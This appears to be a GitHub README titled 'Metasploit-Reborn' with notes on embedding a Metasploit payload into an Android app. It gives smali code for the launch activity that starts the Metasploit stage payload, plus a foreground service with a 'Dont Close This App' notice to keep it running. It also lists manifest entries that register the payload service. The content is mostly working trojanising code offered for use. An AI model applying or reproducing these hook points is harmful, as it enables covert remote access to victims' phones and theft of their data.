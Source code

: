 
Metasploit-Reborn Notes :

<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-21-23.jpg" width=750px height=1000px>
</p>
<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-22-40.jpg" width=750px height=500px>
</p>

                                                            Hook Point 

At Launchable Activity

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V	
new-instance v0, Landroid/content/Intent;
const-class v1, Lcom/example/swagkarna/ForegroundService;
invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
.local v0, "serviceIntent":Landroid/content/Intent;
const-string v1, "inputExtra"
const-string v2, "Warning!!!.Dont Close This App"
invoke-virtual {v0, v1, v2}, Landroid/content/Intent;->putExtra(Ljava/lang/String;Ljava/lang/String;)Landroid/content/Intent;
invoke-static {p0, v0}, Landroidx/core/content/ContextCompat;->startForegroundService(Landroid/content/Context;Landroid/content/Intent;)V

``` 

At Manifest Level  :

```
Add Permission
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
----------------------------------------------------------------------------------------------------------------------------------------
<service android:enabled="true" android:exported="true" android:name="com.example.swagkarna.ForegroundService"/>
<service android:enabled="true" android:exported="true" android:name="com.metasploit.stage.MainService"/>		
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------

I Love Kali-Linux + Metasploit + Android and ImranKhan
